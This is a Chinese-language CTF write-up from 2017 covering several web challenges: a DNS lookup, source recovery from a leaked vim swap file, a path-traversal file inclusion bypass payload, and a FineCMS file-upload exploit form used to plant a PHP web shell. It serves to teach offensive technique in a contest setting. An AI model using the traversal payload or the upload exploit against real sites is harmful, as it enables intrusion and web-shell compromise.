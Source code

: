 ```yaml
---
title: 2017 慕测安恒杯部分题 WriteUp
tags:
  - CTF
  - WriteUp
  - 文件包含
  - 编辑器泄露
date: 2017-07-12 10:20:13
---
```


6月18日的线上赛，今天才补上wp
<!-- more -->

## 1.根据ip查dns解析记录

题目原意是让我们用cmd的nslookup命令，我直接上dns反查网站查的

到这个网站查dns解析[https://www.boip.net/ipv4/](https://www.boip.net/ipv4/)

flag为`this-is-flag`

## 3.编辑器泄露

题目提示编辑器泄露,fuzz后下载到了`login.php.swp`，用`vim -r login.php.swp`恢复得到源码，看到明文账号密码，
```php
if ($userin=="admin94wo")
if($passin=="ca1buda0mima7ah4ha")
```
用账号密码登录login.php得到flag，`flag{b4ckup_1s_normal}`

## 4.文件包含

fuzz后发现 &lt; 被过滤了，构造post file=.&lt;./.&lt;./.&lt;./.&lt;./.&lt;./flag 提交得到flag，`flag{To0_young_2_simple!}`

## 5.综合渗透

题目提示让我们复现exp，该站用的是`finecms`

百度得到此cms的一个上传漏洞，构造html文件如下，上传一个`phtml`后缀的一句话上去，菜刀连接在`/flag`得到flag，`flag{o1d_bug_t0_send_point!}`

```html
<!DOCTYPE html>
<html>
    <head>
    <meta charset=”utf-8″>
    <title>Finecms ajaxswfupload exp</title>
    </head>
    <body>
        <form action=”http://114.55.88.132:20580/index.php?c=attachment&a=ajaxswfupload” method=”POST” enctype=”multipart/form-data”>
            <input type=”file” name=”Filedata”>
            <input type=”hidden” name=”type” value=”phtml”>
            <input type=”hidden” name=”size” value=”100″>
            <input type=”submit” name=”submit” value=”上传文件”>
        </form>
    </body>
</html>
```

## 6.sql注入

这道题到最后也没做出来，sql盲注，过滤了`union`和`column_name`，不知道字段名是啥